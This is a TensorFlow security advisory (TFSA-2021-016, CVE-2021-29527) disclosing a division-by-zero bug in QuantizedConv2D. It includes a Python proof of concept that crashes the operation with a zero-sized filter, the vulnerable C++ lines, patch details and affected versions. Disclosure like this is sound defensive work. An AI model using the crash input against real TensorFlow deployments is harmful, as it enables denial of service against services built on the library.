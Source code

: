URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-016.md
## TFSA-2021-016: Division by 0 in `QuantizedConv2D`

### CVE Number
CVE-2021-29527

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.QuantizedConv2D`:

```python
import tensorflow as tf

input = tf.zeros([1, 1, 1, 1], dtype=tf.quint8)
filter = tf.constant([], shape=[1, 0, 1, 1], dtype=tf.quint8)
min_input = tf.constant(0.0)
max_input = tf.constant(0.0001)
min_filter = tf.constant(0.0)
max_filter = tf.constant(0.0001)
strides = [1, 1, 1, 1]
padding = "SAME"


tf.raw_ops.QuantizedConv2D(input=input, filter=filter, min_input=min_input, max_input=max_input, min_filter=min_filter, max_filter=max_filter, strides=strides, padding=padding)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/00e9a4d67d76703fa1aee33dac582acf317e0e81/tensorflow/core/kernels/quantized_conv_ops.cc#L257-L259) does a division by a quantity that is controlled by the caller:

```cc
const int filter_value_count = filter_width * filter_height * input_depth;
const int64 patches_per_chunk = kMaxChunkSize / (filter_value_count * sizeof(T1));
```

### Patches
We have patched the issue in GitHub commit
[cfa91be9863a91d5105a3b4941096044ab32036b](https://github.com/tensorflow/tensorflow/commit/cfa91be9863a91d5105a3b4941096044ab32036b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.

